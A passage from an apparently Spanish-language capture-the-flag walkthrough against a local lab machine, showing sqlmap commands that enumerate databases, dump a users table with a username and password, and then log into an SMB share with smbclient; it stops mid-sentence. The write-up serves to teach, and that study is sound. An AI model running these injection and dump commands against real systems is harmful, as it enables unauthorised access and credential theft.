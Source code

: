 ✅ Usuario encontrado: `dylan`

---

## 5. 💉 Inyección SQL

### Enumeración de Bases de Datos

```bash
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
```

Bases de datos disponibles:

- information_schema  
- mysql  
- performance_schema  
- **register**  
- sys

### Extracción de Tablas

```bash
sqlmap -u http://172.17.0.2/index.php --forms -D register --tables --batch
```

✅ Tabla: `users`

### Dump de Credenciales

```bash
sqlmap -u http://172.17.0.2/index.php --forms -D register -T users --dump --batch
```

| Username | Password Hash          |
|----------|------------------------|
| dylan    | KJSDFG789FGSDF78       |

---

## 6. 🔓 Acceso a SMB

```bash
smbclient //172.17.0.2/shared -U dylan
```

| Parte del Comando               | Descripción                                                                 |
|---------------------------------|-----------------------------------------------------------------------------|
| `smbclient`                     | Cliente SMB interactivo, similar a FTP, para acceder a recursos compartidos.|
| `//172.17.0.2/shared`           | Ruta del recurso compartido al que se desea acceder (`shared` en la IP dada).|
| `-U dylan`                      | Especifica el nombre de usuario con el que se desea autenticar (`dylan`).   |

Tras obtener acceso a SMB usando el usuario `dylan`, se encuentra un archivo llamado `augustus.txt` con el siguiente hash:
